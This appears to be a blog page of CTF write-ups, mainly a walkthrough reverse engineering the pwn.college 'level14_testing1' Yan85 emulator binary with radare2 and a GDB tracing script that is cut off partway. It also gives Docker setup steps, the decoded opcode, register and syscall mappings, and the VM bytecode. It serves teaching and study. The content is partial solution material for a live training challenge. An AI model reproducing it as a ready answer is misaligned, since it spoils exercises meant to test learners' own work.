








Write-Ups of CTF Style Challenges
Below is a selection of write-ups for some of the more interesting challenges:
- pwn.college - rev_level14 (binary reverse engineering)
- ROP Emporium - pivot (return oriented programming)
- ROP Emporium - ret2csu (return oriented programming)
pwn.college has many amazing challenges, including one level that requires reverse engineering a JIT compiler. Due to their write-up policy, I am unable to share a write-up for this particular level. It is however a lot of fun and teaches some valuable concepts regarding JIT compilers, JIT spraying and how vulnerabilities can still be present despite having all standard security mitigations (e.g. DEP, stack canary, etc) enabled.
pwn.college
pwn.college is a fantastic course for learning Linux based cybersecurity concepts.
The 2020 version of the course covered:
- Module 1: Program Misuse
- Module 2: Shellcode
- Module 3: Sandboxing
- Module 4: Binary Reverse Engineering
- Module 5: Memory Errors
- Module 6: Exploitation
- Module 7: Return Oriented Programming
- Module 8: Kernel Introduction
- Module 9: Dynamic Allocator Misuse
- Module 10: Race Conditions
- Module 11: Advanced Exploitation
- Module 12: Automatic Vulnerability Discovery
As per their website, the following prerequisite knowledge is recommended:
- C programming
- C compilation
- x86_64 assembly
- OS internals (system calls, etc)
- Linux operations (FS layout, permissions, shell scripting, etc)
In accordance with pwn.college's write-up policy, some write-ups have been included in subsequent chapters.
pwn.college - Docker Setup
On Host Machine
-
Download sample Dockerfile
-
Build Custom Docker Image
docker image prune -f && docker build -t pwncollege_custom:v1 .
docker image prune -fforcefully removes unused images [optional]-tgives image a tag in 'name:tag' format.specifies location of Dockerfile is in current working directory
- Run Docker Container
docker image prune -f && docker run -it --rm --name pwncollege_challenges pwncollege_custom:v1 /bin/bash
docker image prune -fforcefully removes unused images [optional]-itkeeps STDIN open even if not attached and allocates pseudo-TTY--rmautomatically removes container when it exits--name pwncollege_challengesassigns name to containerpwncollege_custom:v1custom Docker image from step 1 above/bin/bashcommand run by container
- [optional] Connect to Running Container (from another terminal)
docker exec -it pwncollege_challenges /bin/bash
In Docker Container
- Copy ELF binary, then set privileges and setuid
sudo cp /challenges/<module_dir>/<elf_binary> / && sudo chmod 4755 /<elf_binary>
pwn.college - Binary Reverse Engineering - level14_testing1
Disclaimer:
- At the time of writing this reverse engineering challenge write-up, I had already solved both this challenge and the teaching version of the challenge, plus all the later pwn.college reverse engineering challenges, so I knew the inner workings of the emulator very well. As a result, I may have glossed over some areas that might seem obvious now, but were potentially important when gathering information for the first time.
- Parts of the solution, such as the GDB script were not written in one go, but were refined over a number of iterations, and the format of the GDB script output borrows heavily from the ouput produced by the teaching version of the ELF binary.
[Part 0] Setup Challenge
- If using the Docker container setup referred to in 00-Setup, a copy of the ELF binary can be found at
/challenges/babyrev/level14_testing1in the Docker container, so copy ELF binary to root directory of Docker container, then set privileges and setuid:
sudo cp /challenges/babyrev/level14_testing1 / && sudo chmod 4755 /level14_testing1
- The original ELF binary can be found here: download
- A copy of the ELF binary has also been included here: download
- Add a fake flag if necessary:
$
echo pwn_college{a_secret_fake_flag} | sudo tee /flag && sudo chown root:root /flag && sudo chmod 400 /flag
- Test
/flagfile permissions deny access for currentctfuser:
$
whoami
ctf
$ls -al /flag
-r-------- 1 root root 37 Aug 11 04:37 /flag
$cat /flag
cat: /flag: Permission denied
Basic Info on Challenge Binary
rabin2 -I /level14_testing1
arch x86
baddr 0x0
binsz 16527
bintype elf
bits 64
canary true
class ELF64
compiler GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic true
relocs true
relro full
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
- pic is true, i.e. PIE is enabled
- ELF binary is not stripped
Running Binary
$
/level14_testing1
[+] Welcome to /level14_testing1!
[+] This challenge is an custom emulator. It emulates a completely custom
[+] architecture that we call "Yan85"! You'll have to understand the
[+] emulator to understand the architecture, and you'll have to understand
[+] the architecture to understand the code being emulated, and you will
[+] have to understand that code to get the flag. Good luck!
[+] Starting interpreter loop! Good luck!
ENTER KEY: AAAAAAAA
INCORRECT!
- The program is a custom emulator of an unknown architecture called Yan85
- This write-up uses a combination of static and dynamic analysis to determine what instructions emulator supports, if it emulates registers, memory, syscalls, etc, then eventually gets the flag
[Part 1] Static Analysis Using radare2
- Open ELF binary in radare2:
$
r2 -A /level14_testing1
- The ELF binary is not too large, so
-Aanalysis does not take long - Note: as PIE is enabled, all memory addresses in radare2 should be interpreted relatively (i.e. not absolute references)
- List all functions (focus on the interesting ones, e.g. ignore imports
sym.imp.*):
[0x00001180]>
afl
[...]
0x0000129b 15 194 sym.read_register
0x00001269 1 50 sym.crash
[...]
0x00001a7b 17 257 sym.interpret_instruction
[...]
0x000017f5 13 646 sym.interpret_sys
0x000015e6 1 93 sym.interpret_stm
0x00001461 1 48 sym.write_memory
0x00001491 1 51 sym.interpret_imm
0x0000135d 15 223 sym.write_register
0x00001527 5 191 sym.interpret_stk
[...]
0x00001643 1 85 sym.interpret_ldm
0x0000143c 1 37 sym.read_memory
0x00001bff 3 274 main
[...]
0x00001b7c 2 131 sym.interpreter_loop
[...]
0x00001698 12 260 sym.interpret_cmp
0x0000179c 4 89 sym.interpret_jmp
0x000014c4 1 99 sym.interpret_add
[...]
View main() Function
- Visual Graph mode of
mainfunction (navigate usinghjklkeys, press colon:to access command line):
[0x00001180]>
VV @ main(similar toagfv @ main)
Presspkey once to display additional line info

Emulator's Bytecode
obj.vm_codeshould be the emulator's own bytecode and this is being memcpy'd on to the stack- View hex dump of
obj.vm_code:
V @ obj.vm_code
[0x00004020 [Xadvc]0 62% 896 /level14_testing1]> xc @ obj.vm_code
- offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF comment
0x00004020 0101 4701 1089 4010 0101 012e 0110 8f40 ..G...@........@ ; obj.vm_code
0x00004030 1001 0101 4c01 1082 4010 0101 01ab 0110 ....L...@.......
0x00004040 8540 1001 0101 8601 1083 4010 0101 0157 .@........@....W
0x00004050 0110 8a40 1001 0101 3401 1086 4010 0101 ...@....4...@...
0x00004060 0127 0110 8740 1001 0101 3b01 108d 4010 .'...@....;...@.
0x00004070 0101 01c2 0110 8c40 1001 0400 2004 0008 .......@.... ...
0x00004080 0400 1001 0801 0208 0201 0145 0400 0101 ...........E....
0x00004090 014e 0400 0101 0154 0400 0101 0145 0400 .N.....T.....E..
0x000040a0 0101 0152 0400 0101 0120 0400 0101 014b ...R..... .....K
0x000040b0 0400 0101 0145 0400 0101 0159 0400 0101 .....E.....Y....
0x000040c0 013a 0400 0101 0120 0400 0101 100b 0120 .:..... .......
0x000040d0 0108 0401 0410 0004 0800 0420 0004 0020 ........... ...
0x000040e0 0400 0804 0010 0108 4001 100e 0120 0008 ........@.... ..
0x000040f0 0801 0410 0004 0800 0420 0001 0197 0110 ......... ......
0x00004100 8840 1001 0101 a801 108b 4010 0101 0190 .@........@.....
0x00004110 0110 8e40 1001 0101 d201 1084 4010 0101 ...@........@...
0x00004120 0489 0220 1002 0810 0101 ff02 2001 0208 ... ........ ...
0x00004130 0104 0020 0400 0880 2020 8008 0820 2008 ... .... ... . ; str._b_b___b
0x00004140 0408 0004 2000 0101 6a10 0401 0101 ff02 .... ...j.......
0x00004150 1001 0101 0020 1001 0101 5810 0401 0401 ..... ....X.....
0x00004160 1004 0400 0108 0102 0802 0101 4904 0001 ............I...
0x00004170 0101 4e04 0001 0101 4304 0001 0101 4f04 ..N.....C.....O.
0x00004180 0001 0101 5204 0001 0101 5204 0001 0101 ....R.....R.....
0x00004190 4504 0001 0101 4304 0001 0101 5404 0001 E.....C.....T...
0x000041a0 0101 2104 0001 0101 0a04 0001 0110 0b01 ..!.............
0x000041b0 2001 0804 0101 2001 0802 0001 2040 0108 ..... ..... @..
0x000041c0 8401 100c 0101 0202 0104 0400 0101 0456 ...............V
0x000041d0 0110 0020 0110 0101 9610 0201 0101 6c10 ... ..........l.
0x000041e0 1101 0108 0102 0802 0101 4304 0001 0101 ..........C.....
0x000041f0 4f04 0001 0101 5204 0001 0101 5204 0001 O.....R.....R...
0x00004200 0101 4504 0001 0101 4304 0001 0101 5404 ..E.....C.....T.
0x00004210 0001 0101 2104 0001 0101 2004 0001 0101 ....!..... .....
0x00004220 4804 0001 0101 6504 0001 0101 7204 0001 H.....e.....r...
0x00004230 0101 6504 0001 0101 2004 0001 0101 6904 ..e..... .....i.
0x00004240 0001 0101 7304 0001 0101 2004 0001 0101 ....s..... .....
0x00004250 7904 0001 0101 6f04 0001 0101 7504 0001 y.....o.....u...
0x00004260 0101 7204 0001 0101 2004 0001 0101 6604 ..r..... .....f.
0x00004270 0001 0101 6c04 0001 0101 6104 0001 0101 ....l.....a.....
0x00004280 6704 0001 0101 3a04 0001 0101 0a04 0001 g.....:.........
0x00004290 0110 1c01 2001 0804 0101 012f 0110 8040 .... ....../...@
0x000042a0 1001 0101 6601 1081 4010 0101 016c 0110 ....f...@....l..
0x000042b0 8240 1001 0101 6101 1083 4010 0101 0167 .@....a...@....g
0x000042c0 0110 8440 1001 0101 0001 1085 4010 0101 ...@........@...
0x000042d0 2080 0108 0008 2001 0108 8001 10ff 0120 ..... ........
0x000042e0 0002 2001 0808 0101 0880 0110 0002 1001 .. .............
0x000042f0 0120 0108 0401 0120 0008 0200 dc02 0000 . ..... ........ ; obj.vm_code_length
- Assuming value @ 0x000042fc is
obj.vm_code_length, which is0x02dcin little endian, test assumption:
:>
? 0x42fc-0x4020
uint32 732
hex 0x2dc
- Above vm_code_length assumption seems correct, therefore vm_code is from 0x00004020 to 0x000042fb, inclusive (also recall that PIE is enabled, so these addresses will be different when executing the program, but the relative addresses are still important)
- Some interesting strings are included in the bytecode:
- From 0x00004089 to 0x000040bb "..E.....N.....T.....E.....R..... .....K.....E.....Y.....:"
- From 0x0000416a to 0x000041a2 "..I.....N.....C.....O.....R.....R.....E.....C.....T.....!"
- From 0x000041e8 to 0x00004286 "..C.....O.....R.....R.....E.....C.....T.....!..... .....H.....e.....r.....e..... .....i.....s..... .....y.....o.....u.....r..... .....f.....l.....a.....g.....:"
- Note that the spacing is always the same between the ASCII characters
- Just before the call sym.interpreter_loop, rdi = stack address of the memcpy'd vm_code, rsi = original address of
obj.vm_code
View interpreter_loop() Function
- View
sym.interpreter_loopfunction to understand if/how either variables are utilised:
[0x00001180]>
VV @ sym.interpreter_loop
- Looks like rdi (stack address of the memcpy'd vm_code) is used, but rsi isn't:

- Last block of code is a loop:
 - Above loop iterates over 3 bytes at a time
- Each byte is selected individually by doing some
shls (bitwise left shift) andors then they are moved to the stack and back into registers before callingsym.interpret_instruction, either to sort or jumble the order (TBD: understand how the order is interpreted) - Each instruction is therefore size 3 bytes
View interpret_instruction() Function
- View
sym.interpret_instructionto understand what instructions are supported by the emulator (focus on the branching, i.e. whattest/cmpconditions are required to either jump or not jump?):
[0x00001180]>
VV @ sym.interpret_instruction
- If opcode==0x01 then call
sym.interpret_imm:
 - If opcode==0x02 then call
sym.interpret_add:

- If opcode==0x04 then call
sym.interpret_stk:

- If opcode==0x40 then call
sym.interpret_stm:

test al, al; jns 0x1b1f;means jump if signed bit (most significant bit) ofalregister is not set (i.e. if signed bit is set then callsym.interpret_ldmbecause it didn't jump), therefore opcode==0x80 is a possible way to callsym.interpret_ldm:

- If opcode==0x20 then call
sym.interpret_cmp:

- If opcode==0x10 then call
sym.interpret_jmp:

- If opcode==0x08 then call
sym.interpret_sys:

View write_register() Function
- Remember the
sys.write_registerfrom earlier? List functions and perform internal grep for write_register (focus on the branching, i.e. what switch case values are required to reach different registers?):
[0x00001180]>
afl~write_register
- View
sys.write_registerfunction to understand the registers:
[0x00001180]>
VV @ sym.write_register


 

- Register values are stored in memory at offsets 0x3fc to 0x402
- Temporarily name registers by their offsets and note down the switch case lookup refs:
- reg_0x3fc: 0x20 (case 32)
- reg_0x3fd: 0x08 (case 08)
- reg_0x3fe: 0x10 (case 16)
- reg_0x3ff: 0x01 (case 01)
- reg_0x400: 0x02 (case 02)
- reg_0x401: 0x04 (case 04)
- reg_0x402: 0x40 (case 40)
View interpret_sys() Function
- View
sym.interpret_systo understand what syscalls can be executed by the emulator (focus on the branching, i.e. whattest/cmpconditions are required to either jump or not jump?):
[0x00001180]>
VV @ sym.interpret_sys
- If sys_value==0x20 then call open; int open(const char *path, int oflag):
 - Below are two code blocks that both make calls to the libc read function. It may not immediately be apparent what the difference between them is, but what is obvious is that they both attempt to read up to count
nbytebytes from file descriptorfildesinto the buffer starting atbuf. That is actually enough information to solve this challenge, but for later challenges it is worth understanding the difference. - If sys_value==0x01 then call read; ssize_t read(int fildes, void *buf, size_t nbyte):

- If sys_value==0x08 then call read; ssize_t read(int fildes, void *buf, size_t nbyte):
 - If sys_value==0x04 then call write; ssize_t write(int fd, const char *ptr, size_t nbytes):
 - If sys_value==0x10 then call sleep; int sleep(int s):

- If sys_value==0x02 then call exit; void exit(int status):

View interpret_cmp() Function
- View
sym.interpret_cmpto understand what values will be set in the emulated flag register (focus on the branching, i.e. whattest/cmpconditions are required to either jump or not jump?), and based on the condition we can assign some identifiable characters ('L', 'G', 'E', 'N', 'Z') for reference:
[0x00001180]>
VV @ sym.interpret_cmp
- If cmp_x < cmp_y (i.e. 'L'), then flag_value = flag_value | 0x10:

- If cmp_x > cmp_y (i.e. 'G'), then flag_value = flag_value | 0x01:

- If cmp_x == cmp_y (i.e. 'E'), then flag_value = flag_value | 0x02:

- If cmp_x != cmp_y (i.e. 'N'), then flag_value = flag_value | 0x04:

- If cmp_x == cmp_y == 0 (i.e. 'Z'), then flag_value = flag_value | 0x08:

Summary of Part 1
- Each instruction is size 3 bytes (Note: the instruction order can change for different versions of the ELF binary)
- Register, opcode, syscall, compare lookup values are known (Note: the register, opcode, syscall and cmp mappings can change for different versions of the ELF binary):
# Pseudo Python code for notes purposes only
registers = {
reg_0x3fc: 0x20, # (case 32)
reg_0x3fd: 0x08, # (case 08)
reg_0x3fe: 0x10, # (case 16)
reg_0x3ff: 0x01, # (case 01)
reg_0x400: 0x02, # (case 02)
reg_0x401: 0x04, # (case 04)
reg_0x402: 0x40, # (case 40)
}
opcodes = {
'imm': 0x01,
'add': 0x02,
'stk': 0x04,
'stm': 0x40,
'ldm': 0x80,
'cmp': 0x20,
'jmp': 0x10,
'sys': 0x08,
}
syscalls = {
'open' : 0x20,
'read_code' : 0x01,
'read_memory' : 0x08,
'write' : 0x04,
'sleep' : 0x10,
'exit' : 0x02,
}
# CMP and JMP are closely linked, so assume that they interpreted in the same way
jump_description = ''
if flag_value & 0x10: jump_description += 'L'
if flag_value & 0x01: jump_description += 'G'
if flag_value & 0x02: jump_description += 'E'
if flag_value & 0x04: jump_description += 'N'
if flag_value & 0x08: jump_description += 'Z'
[Part 2] Dynamic Analysis Using GDB
$
gdb -q /level14_testing1
(gdb)disass interpret_instruction
Dump of assembler code for function interpret_instruction:
[...]
0x0000000000001aa8 <+45>: call 0x1491 <interpret_imm>
[...]
0x0000000000001ac6 <+75>: call 0x14c4 <interpret_add>
[...]
0x0000000000001ae4 <+105>: call 0x1527 <interpret_stk>
[...]
0x0000000000001b02 <+135>: call 0x15e6 <interpret_stm>
[...]
0x0000000000001b1a <+159>: call 0x1643 <interpret_ldm>
[...]
0x0000000000001b38 <+189>: call 0x1698 <interpret_cmp>
[...]
0x0000000000001b56 <+219>: call 0x179c <interpret_jmp>
[...]
0x0000000000001b74 <+249>: call 0x17f5 <interpret_sys>
[...]
- Print some helpful output at every breakpoint (
i r==info registers,x/8i $ripdisplays the next 8 instructions):
(gdb)
define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>i r
>x/8i $rip
>end
- Set breakpoint at all
interpret_*functions:
(gdb)
b interpret_imm
(gdb)b interpret_add
(gdb)b interpret_stk
(gdb)b interpret_stm
(gdb)b interpret_ldm
(gdb)b interpret_cmp
(gdb)b interpret_jmp
(gdb)b interpret_sys
- Run program:
(gdb)
r
- 1st cycle, interrupted at
interpret_imm,info registersshows:
rsi 0x470101 (which is 0x010147 when accounting for endianness)
- Continue:
(gdb)
c
- 2nd cycle, interrupted at
interpret_imm,info registersshows:
rsi 0x891001 (which is 0x011089 when accounting for endianness)
- These are the first 6 bytes of the
obj.vm_code(emulator's bytecode) looked at in radare2 earlier, recall the following in radare2:
V @ obj.vm_code
[0x00004020 [Xadvc]0 62% 896 /level14_testing1]> xc @ obj.vm_code
- offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF comment
0x00004020 0101 4701 1089 4010 0101 012e 0110 8f40 ..G...@........@ ; obj.vm_code
0x00004030 1001 0101 4c01 1082 4010 0101 01ab 0110 ....L...@.......
[...]
- Split instructions into groups of 3 bytes, then order appears to be [op, arg1, arg2]:
[0x01, 0x01, 0x47] -> imm reg_0x3ff, 0x47
[0x01, 0x10, 0x89] -> imm reg_0x3fe, 0x89
[0x40, 0x10, 0x01] -> guess... stm reg_0x3fe, reg_0x3ff maybe?
- Test
interpret_stmassumption by continuing and looking at which interpret_??? function we end up breaking at:
(gdb)
c
- 3rd cycle, interrupted at
interpret_stm,info registersappears to corroborate above assumption:
rsi 0x11040 (which is 0x401001 when accounting for endianness)
- Keep going through the vm_code to guess the next three instructions:
[0x01, 0x01, 0x2e] -> imm reg_0x3ff, 0x2e
[0x01, 0x10, 0x8f] -> imm reg_0x3fe, 0x8f
[0x40, 0x10, 0x01] -> guess... stm reg_0x3fe, reg_0x3ff again maybe?
- Continue again to test assumption:
(gdb)
c
- 4th cycle, interrupted at
interpret_imm,info registersshows:
rsi 0x2e0101 (which is 0x01012e when accounting for endianness)
- Continue:
(gdb)
c
- 5th cycle, interrupted at
interpret_imm,info registersshows:
rsi 0x8f1001 (which is 0x01108f when accounting for endianness)
- 6th cycle, interrupted at
interpret_stm,info registersshows:
rsi 0x11040 (which is 0x401001 when accounting for endianness)
- Therefore, instruction order when viewing
obj.vm_codeis [op, arg1, arg2] (Note: the instruction order can change for different versions of the ELF binary) - At this point (at beginning of 6th cycle, i.e. not yet executed current [0x40, 0x10, 0x01] instruction), based on the instructions executed thus far, the state of the emulator's registers is expected to be:
reg_0x3fc = 0x00
reg_0x3fd = 0x00
reg_0x3fe = 0x8f
reg_0x3ff = 0x2e
reg_0x400 = 0x00
reg_0x401 = 0x00
reg_0x402 = 0x00
- Assuming there is a register for the instruction pointer, one of the above register values is likely incorrect
- If instruction pointer register holds the value of the next instruction, then the value maybe could be 0x06?
- If instruction pointer register holds the value of the previous instruction, then the value maybe could be 0x05?
- Examine the stack to have a look for the emulator's stored state on the stack (Note: examine much more than the current function's stack frame, because we need to look for the state of the emulator's registers, which will be stored much earlier in the program's stack):
(gdb) x/150gx $rsp
[...]
0x7ffe124a57f8: 0x0000000000000000 0x0000000000000000
0x7ffe124a5808: 0x2e8f000000000000 0x00007ffe12000600 <-- These values look familiar
0x7ffe124a5818: 0xa957b0f74c9c8000 0x0000000000000000
0x7ffe124a5828: 0x00007fc32cc8e0b3 0x0000000000000031
0x7ffe124a5838: 0x00007ffe124a5918 0x000000012ce4f618
0x7ffe124a5848: 0x000056465be1dbff 0x000056465be1dd20
- Note that the memory addresses are likely to be different each time the program is run, so the relative addresses are the important parts to focus on
- Examine 7 bytes where it looks like the state of the registers is stored:
(gdb)
x/7bx 0x7ffe124a5808 + 0x04
0x7ffe124a580c: 0x00 0x00 0x8f 0x2e 0x00 0x06 0x00
??registers???: 0x3fc 0x3fd 0x3fe 0x3ff 0x400 0x401 0x402
- Revise assumption on state of the emulator's registers based on dumped stack values:
reg_0x3fc = 0x00
reg_0x3fd = 0x00
reg_0x3fe = 0x8f
reg_0x3ff = 0x2e
reg_0x400 = 0x00
reg_0x401 = 0x06 <-- Updated value (likely to be value of instruction pointer)
reg_0x402 = 0x00
- Calculate distance emulator's register state is stored on stack relative to stack pointer at current breakpoint:
(gdb)
p $rsp
$1 = (void *) 0x7ffe124a53a8
(gdb)p 0x7ffe124a580c - 0x7ffe124a53a8
$2 = 1124
- Check calculation is correct:
(gdb)
p/x $rsp + 1124$3 = 0x7ffe124a580c
- The 1124 (decimal) relative offset from stack pointer should be the same for each of the interpret_* breakpoints, if assumption is wrong it will become apparent in the next section when a GDB script is used to run program in batch mode and print useful info
Dynamic Analysis Using GDB Scripting
- Write a GDB script using the known mappings derived thus far, snippets of the GDB script will be described below:
$
vim /tmp/rev_level14_testing1.gdb
- Begin script with
startso that breakpoint is set at main and process is run:
start
- Set some variables that will used repeatedly
reg_offsis the offset from rsp that was determined in the previous section that locates the emulator's register state- In the previous section, the instructions were found to be in rsi at the relevant breakpoints, so
shift_op,shift_a1,shift_a2are the amounts to shift rsi by to isolate each byte of the instruction
set $reg_offs = 1124
set $shift_op = 0x00
set $shift_a1 = 0x08
set $shift_a2 = 0x10
- Register mappings were determined in the radare2 static analysis performed previously:
define describe_reg
if $arg0 == 0x20
printf "reg_0x3fc"
end
if $arg0 == 0x08
printf "reg_0x3fd"
end
if $arg0 == 0x10
printf "reg_0x3fe"
end
if $arg0 == 0x01
printf "reg_0x3ff"
end
if $arg0 == 0x02
printf "reg_0x400"
end
if $arg0 == 0x04
printf "reg_0x401"
end
if $arg0 == 0x40
printf "reg_0x402"
end
if $arg0 == 0x00
printf "NONE"
end
end
- Syscall mappings were determined in the radare2 static analysis performed previously:
define describe_sys
if $arg0 == 0x20
printf "open"
end
if $arg0 == 0x01
printf "read_code"
end
if $arg0 == 0x08
printf "read_memory"
end
if $arg0 == 0x04
printf "write"
end
if $arg0 == 0x10
printf "sleep"
end
if $arg0 == 0x02
printf "exit"
end
end
- Jump mappings were determined in the radare2 static analysis performed previously:
define describe_jmp
if $arg0 & 0x10
printf "L"
end
if $arg0 & 0x01
printf "G"
end
if $arg0 & 0x04
printf "N"
end
if $arg0 & 0x08
printf "Z"
end
if $arg0 & 0x02
printf "E"
end
end
- Define a function that prints the emulator's register state that can be called at each breakpoint:
define vm_state
set $reg_state = (long long) *(void**) ($rsp + $reg_offs)
printf "[V] reg_0x3fc:%#x reg_0x3fd:%#x reg_0x3fe:%#x reg_0x3ff:%#x reg_0x400:%#x reg_0x401:%#x reg_0x402:%#x\n", $reg_state >> 0x00 & 0xff, $reg_state >> 0x08 & 0xff, $reg_state >> 0x10 & 0xff, $reg_state >> 0x18 & 0xff, $reg_state >> 0x20 & 0xff, $reg_state >> 0x28 & 0xff, $reg_state >> 0x30 & 0xff
end
- Define a function that describes each instruction that can be called at each breakpoint:
define vm_instruction
printf "[I] op:%#x arg1:%#x arg2:%#x\n", $rsi>>$shift_op&0xff, $rsi>>$shift_a1&0xff, $rsi>>$shift_a2&0xff
end
- Break at all the
interpret_*function calls and print some useful info using a combo of previously defined helper functions andprintfspecific to each breakpoint:
break interpret_imm
commands
vm_state
vm_instruction
printf "[s] IMM "
describe_reg ($rsi>>$shift_a1&0xff)
printf " = %#x\n", $rsi>>$shift_a2&0xff
continue
end
break interpret_add
commands
vm_state
vm_instruction
printf "[s] ADD "
describe_reg ($rsi>>$shift_a1&0xff)
printf " "
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
continue
end
break interpret_stk
commands
vm_state
vm_instruction
printf "[s] STK "
describe_reg ($rsi>>$shift_a1&0xff)
printf " "
describe_reg ($rsi>>$shift_a2&0xff)
printf " \n"
printf "[s] ... pushing "
describe_reg ($rsi>>$shift_a2&0xff)
printf "\n"
